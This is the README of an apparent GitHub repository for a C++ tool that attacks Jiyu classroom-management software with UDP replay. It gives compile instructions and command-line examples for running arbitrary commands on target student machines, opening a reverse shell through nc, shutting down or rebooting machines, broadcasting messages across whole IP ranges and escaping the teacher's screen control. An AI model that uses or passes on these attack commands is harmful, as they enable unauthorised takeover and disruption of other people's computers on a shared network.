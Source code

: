 # Jiyu-UDP-Attack-Cpp
A UDP replay attack code for Jiyu, written in C++.

中文文档见 [README_zh.md](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/README_zh.md)

## Compile
Required system: Windows
Required C++ version: C++14

Note: All the headers are already added into main.cpp manually. Therefore, you just need to copy/download main.cpp and compile it directly instead of adding header files.

Compile command:

### MSVC
```bash
cl main.cpp /std:c++14 /Fe:main.exe
```

### MinGW
```bash
g++ main.cpp -o main.exe -std=c++14 -lws2_32
```

Note when using GCC / MinGW compiler:  
Make sure Windows-related library is in the library directory.  
Do not forget the compile argument `-lws_32`. If not using command line, add this argument to the compile options in your IDE.

## Usage
Start UI by simply run the program or call:
```bash
main
```

Or, run on command line:
```bash
main [-h(--help) |
  [-i(--ip) <IP>] [-p <Port>] [-m(--msg) <Message> | -c <Command>]
  [-l <Loop Count>] [-t <Loop Time Interval>]
  [-e <Extra Option>] [-ncport <NC Port>]]
```

Arguments:
| Argument | Description | Default |
| -------- | ----------- | ------- |
| `-h(--help)` | Show help text. | |
| `-i(--ip) <IP>` | Specify the IP of target. | |
| `-p <Port>` | Specify which port to listen to. | 4705 |
| `-m(--msg) <Message>` | Specify the message to send. | |
| `-c <Command>` | Command to run on target machine. | |
| `-e <Extra Option>` | Load extra option. | |
| `-l <Loop Count>` | Specify the loop count of the command. | 1
| `-c <Loop Time Interval>` | Specify the loop's interval time of the command, in seconds. | 22 |
| `-n(--ncport) <NC Port>` | Specify which port for `nc` command to listen to. | 8888 |

Available options for `<Extra Option>` of `-e` argument:
| Option | Description |
| ------ | ----------- |
| `r` | Reboot the target machine. |
| `s` | Shutdown the target machine. |
| `g` | Get your current IP address and the port which Student Terminal listens to. |
| `nc` | Reverse shell. Needs Internet access on target machine. Use command `exit` to exit. |
| `break` | Get out of screen control. Needs administrator access. |
| `continue` | Recover screen control. |

Target IP available for `<IP>` of `-i(--ip)` argument:
- A direct IP. eg. `192.168.1.1`
- An IP segment, ends with `/24`. eg. `192.168.1.1/24`
- An IP segment, represented by `-`. eg. `192.168.1.2-10`  
Note:  
Only the last number of an IP is availble to be a segment.  
This is illegal: `192.168.1-80.1`

### Examples
1. Get your IP address and the port which Student Terminal listens to:

```bash  
main -e g
```

2. Get out of screen control:

Needs administrator access, mainly for MpsSvc.
```bash
main -e break
```

3. Recover screen control:

```bash
main -e continue
```

4. Send message:

Send a piece of message "Hello!" to target machine with IP `192.168.1.1`:
```bash
main --ip 192.168.1.1 --msg "Hello!"
```

If the port which Student Terminal listens to is **4605**, use `-p <Port>` to specify the port. Send a piece of message "Hello!" to target machine with IP `192.168.1.12`:
```bash
main -i 192.168.1.12 -p 4605 -m "Hello!"
```

5. Run command:

Pop up a calculator for target machines with ip `192.168.1.12` to `192.168.1.137`:
```bash
main -i 192.168.1.12-137 -c calc.exe
```

If the command to run has space in it, use a pair of quote to wrap:
```bash
main -i 192.168.1.1 -c "taskkill /f /im chrome.exe"
```

6. Reverse shell:

The ip of target machine should **not** be a segment.
```bash
main -i 192.168.1.1 -e nc
```

7. Shutdown and reboot:

Shutdown:
```bash
main 192.168.1.1 -e s
```

Reboot:
```bash
main 192.168.1.1 -e r
```

8. Loop command:

Send message to target machines with IP `192.168.1.0` to `192.168.1.255`, continue to execute after 50s, totally 3 times:
```bash
main -i 192.168.1.1/24 -m "Hello!" -l 3 -t 50
```

## Header Guide & Contributing Guide
If you hope to call related interfaces of this code in your own code, or develop the source code by yourself, you can focus on related code in the `header` branch, which codes in different modules are separated in different headers, and refer others by headers.
See header docs: [Jiyu-UDP-Attack-Cpp Header Docs](https://github.com/pbw-Kevin/Jiyu_udp_attack/blob/header/docs/en.md)

If you want to contribute to this code, you can raise an issue or make a pull request on the `header` branch~ If the pull request is merged, `main.cpp` will be updated in time!

## About
Inspired by: [ht0Ruial/Jiyu_udp_attack](https://github.com/ht0Ruial/Jiyu_udp_attack)

## License
[MIT License](https://github.com/pbw-Kevin/Jiyu-UDP-Attack-Cpp/blob/main/LICENSE)
